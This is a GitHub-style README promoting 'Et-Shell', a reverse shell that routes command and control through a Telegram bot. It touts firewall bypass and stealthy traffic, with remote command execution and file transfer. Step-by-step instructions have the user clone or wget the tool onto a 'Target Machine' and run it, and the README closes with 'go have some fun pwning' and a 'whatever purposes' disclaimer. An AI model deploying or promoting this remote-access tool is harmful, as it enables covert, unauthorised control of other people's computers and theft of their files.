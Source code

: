 # ⚡ Et-Shell – The Easiest Reverse Shell You’ll Ever Use!

Forget complicated setups. **Et-sHell** gives you a **fully functional reverse shell** using **Telegram**—no need for a remote server, no open ports, no headaches. Just straight-up shell access, routed through Telegram’s servers.

## 🔥 Why etShell?

-   **Broke? No server?, no problem** – No need to set up a VPS, configure nginx rules or expose your IP.
-   **Firewall? Bypass it.** – No open ports, no NAT issues, just seamless communication.
-   **Command & Control via Telegram** – Send shell commands from your girlfriend's dorm room with your phone.
-   **Discreet & Stealthy** – Blends in like a ghost – Telegram traffic = Innocent AF!.
-   **File Transfers** – Upload and download files.
-   **Live Mode** – Watch command output in real-time.

## 🛠️ Setup in 60 Seconds

1.  **Create a Telegram bot** via [@BotFather](https://t.me/BotFather).
2.  **Clone this repo on your Target Machine/ wget `etshell.py`**:
    
    ```
    git clone https://github.com/getmydropper/Et-Shell   
    ```
    
3.  **Install dependencies**:
    
    ```
    pip install telepot  
    ```
        
 4. **Paste your bot `TOKEN` obtained from  [@BotFather](https://t.me/BotFather) in `etshell.py`.**
    
5.  **Run it**:
    
    ```
    python etshell.py  
    ```
    
5.  **Start commanding your Target Machine via Telegram.**

## ⚠️ Disclaimer

This tool is for **whatever purposes** and make sure your bot token stays safe. If you use it for anything shady, that's on you. Don’t be dumb.

Now go have some fun pwning!

[![Telegram](https://badgen.net/badge/icon/Don't%20be%20an%20skid!?icon=telegram&label=DM%20for%20Queries)](https://t.me://hello_elliot_bot)
----------

#### LICENSE
```
             DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.

```
